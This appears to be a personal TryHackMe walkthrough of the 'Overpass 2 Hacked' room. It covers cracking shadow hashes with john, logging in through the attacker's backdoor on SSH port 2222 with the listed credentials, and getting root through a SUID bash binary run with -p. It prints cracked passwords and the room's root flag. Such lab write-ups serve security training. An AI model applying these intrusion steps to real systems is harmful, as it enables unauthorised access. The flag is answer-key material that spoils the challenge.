

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/TryHackMe/overpass2hacked/index.html · generator: mkdocs

# Overpass2hacked

Examine capture file
Copy hashes from /etc/shadow for offline cracking with fasttrack.txt in john
ound 4 passwords
	• secret12         (bee)
	• abcd123          (szymex)
	• 1qaz2wsx         (muirland)
secuirty3        (paradox)

# Initial access
The hacker left a backdoor on **SSH port 2222**
Username: `james`
Password:`november16`

![[9ec9a0c9ac1d40e7966281e38594e7eb.png]]
# Enumeration
## Got kernel version
```
uname -a
```
## search for Linux Kernel 4.15 exploits
```
$ searchsploit linux 4.15
```
![[222b2b8221514397b12bb42fa1b6bd17.png]]

## Look around the file system
![[14ad1ed7b0de4b78ad5d7dd55c5665f9.png]]

### Abusing .suid_bash
![[0c17acc4b5e0495f959560adf18b733d.png]]

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt
thm{d53b2684f169360bb9606c333873144d}
```

root flag `thm{d53b2684f169360bb9606c333873144d}`
